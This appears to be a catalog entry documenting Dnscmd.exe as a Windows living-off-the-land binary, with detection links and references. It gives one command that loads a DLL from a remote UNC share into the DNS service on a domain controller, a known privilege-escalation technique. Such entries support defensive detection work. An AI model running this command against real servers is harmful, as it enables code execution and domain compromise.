 ```yaml
---
Name: Dnscmd.exe
Description: A command-line interface for managing DNS servers
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
    Description: Adds a specially crafted DLL as a plug-in of the DNS Service. This command must be run on a DC by a user that is at least a member of the DnsAdmins group. See the reference links for DLL details.
    Usecase: Remotely inject dll to dns server
    Category: Execute
    Privileges: DNS admin
    MitreID: T1543.003
    OperatingSystem: Windows server
    Tags:
      - Execute: DLL
Full_Path:
  - Path: C:\Windows\System32\Dnscmd.exe
  - Path: C:\Windows\SysWOW64\Dnscmd.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_dnscmd_install_new_server_level_plugin_dll.yml
  - IOC: Dnscmd.exe loading dll from UNC/arbitrary path
Resources:
  - Link: https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
  - Link: https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
  - Link: https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
  - Link: https://twitter.com/Hexacorn/status/994000792628719618
  - Link: http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html
Acknowledgement:
  - Person: Shay Ber
    Handle:
  - Person: Dimitrios Slamaris
    Handle: '@dim0x69'
  - Person: Nikhil SamratAshok
    Handle: '@nikhil_mitt'
---
```

